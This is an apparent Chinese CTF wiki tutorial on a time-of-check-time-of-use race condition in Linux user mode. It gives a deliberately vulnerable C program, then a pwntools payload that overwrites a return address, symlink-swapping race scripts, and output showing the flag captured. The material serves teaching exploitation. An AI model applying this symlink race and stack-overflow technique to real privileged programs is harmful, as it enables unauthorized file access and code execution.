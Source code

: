 ```yaml
---
title: 题目
url: /pwn/linux/user-mode/race-condition/problem
tags:
- arbitrary-code-execution
- bypass-security-checks
- command-line-argument-control
- file-size-check-bypass
- file-system-access
- file-system-race
- function-redirection
- race-condition
- read-protected-files
- stack-overflow
- stack-overflow-exploitation
- stack-overflow-vulnerability
- symbolic-link-attack
- symbolic-link-creation
- time-of-check-time-of-use
- timing-control
- toctou
---
```

# 题目

## 构造例子

### 源代码

源代码如下

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <unistd.h>
void showflag() { system("cat flag"); }
void vuln(char *file, char *buf) {
  int number;
  int index = 0;
  int fd = open(file, O_RDONLY);
  if (fd == -1) {
    perror("open file failed!!");
    return;
  }
  while (1) {
    number = read(fd, buf + index, 128);
    if (number <= 0) {
      break;
    }
    index += number;
  }
  buf[index + 1] = '\x00';
}
void check(char *file) {
  struct stat tmp;
  if (strcmp(file, "flag") == 0) {
    puts("file can not be flag!!");
    exit(0);
  }
  stat(file, &tmp);
  if (tmp.st_size > 255) {
    puts("file size is too large!!");
    exit(0);
  }
}
int main(int argc, char *argv[argc]) {
  char buf[256];
  if (argc == 2) {
    check(argv[1]);
    vuln(argv[1], buf);
  } else {
    puts("Usage ./prog <filename>");
  }
  return 0;
}
```

### 分析

可以看出程序的基本流程如下

- 检查传入的命令行参数是不是 “flag”，如果是的话，就退出。
- 检查传入的命令行参数对应的文件大小是否大于 255，是的话，就直接退出。
- 将命令行参数所对应的文件内容读入到 buf 中 ，buf 的大小为 256。

看似我们检查了文件的大小，同时 buf 的大小也可以满足对应的最大大小，但是这里存在一个条件竞争的问题。

如果我们在程序检查完对应的文件大小后，将对应的文件删除，并符号链接到另外一个更大的文件，那么程序所读入的内容就会更多，从而就会产生栈溢出。

### 基本思路

那么，基本思路来了，我们是想要获得对应的`flag`的内容。那么我们只要通过栈溢出修改对应的`main`函数的返回地址即可，通过反汇编以及调试可以获得`showflag`的地址，获得对应的payload

```python
➜  racetest cat payload.py 
from pwn import *
test = ELF('./test')
payload = 'a' * 0x100 + 'b' * 8 + p64(test.symbols['showflag'])
open('big', 'w').write(payload)
```

对应两个条件竞争的脚本为

```sh
➜  racetest cat exp.sh    
#!/bin/sh
for i in `seq 500`
do
    cp small fake
    sleep 0.000008
    rm fake
    ln -s big fake
    rm fake
done
➜  racetest cat run.sh 
#!/bin/sh
for i in `seq 1000`
do
    ./test fake
done
```

其中 exp 用于来竞争在相应的窗口内删除 fake 文件，同时执行符号链接。run 用来执行程序。

### 具体效果

```shell
➜  racetest (sh exp.sh &) && sh run.sh
[...]
file size is too large!!
open file failed!!: No such file or directory
open file failed!!: No such file or directory
open file failed!!: No such file or directory
open file failed!!: No such file or directory
file size is too large!!
open file failed!!: No such file or directory
open file failed!!: No such file or directory
flag{race_condition_succeed!}
[...]
```

其中成功的关键在于对应的 `sleep` 的时间选择。

## 参考

- http://www.cnblogs.com/biyeymyhjob/archive/2012/07/20/2601655.html
- http://www.cnblogs.com/huxiao-tee/p/4660352.html
- https://github.com/dirtycow/dirtycow.github.io